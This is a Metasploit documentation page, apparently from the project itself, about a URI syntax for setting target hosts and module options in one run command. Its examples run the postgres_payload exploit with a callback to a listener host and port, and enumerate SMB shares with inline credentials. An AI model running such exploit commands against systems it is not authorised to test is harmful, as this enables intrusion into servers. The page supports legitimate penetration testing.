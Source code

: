 ## Examples

Traditional usage of Metasploit involves loading a module, and setting multiple options individually:

```
use exploit/linux/postgres/postgres_payload
set username administrator
set password pass
set rhost 192.168.123.6
set rport 5432
set database postgres
set lhost 192.168.123.1
set lport 5000
run
```

Traditionally, you can also specify multiple RHOSTS separated by spaces or with a CIDR subnet mask:

```
set rhosts 127.0.0.1 127.0.0.2
set rhosts 127.0.0.1/24
```

This document describes a modern approach to setting multiple options in a command. This workflow will not only make it easier to use `reverse-i-search` with `CTRL+R` in Metasploit's console, but it will also make it easier to share cheat sheets amongst pentesters.

### URI support for RHOSTS

Metasploit now supports the use of [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) strings as arguments to the run command to specify RHOST values and option values at once:

```
use exploit/linux/postgres/postgres_payload
run postgres://administrator:pass@192.168.123.6 lhost=192.168.123.1 lport=5000
```

The following protocols are currently supported, and described in more detail below:

- cidr - Can be combined with other protocols to specify address subnet mask length
- file - Load a series of RHOST values separated by newlines from a file. This file can also include URI strings
- http
- https
- mysql
- postgres
- smb
- ssh

To preserve whitespace, regardless of the protocol, use quotes:

```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

In some scenarios it may be too troublesome to escape quotes within a password. In this scenario it possible to still set the password option manually and use the URI argument without a password specified, the module will gracefully fallback to using the manually set password:

```
set password !@£$%^&*()"'
run smb://user@192.168.123.13
```

You can also specify multiple RHOST arguments, as well as provide additionally inlined options:

```
use scanner/smb/smb_enumshares
run smb://test:test@192.168.1.223 smb://user:password@192.168.1.223 smb://test:test@127.0.0.1 verbose=true
```
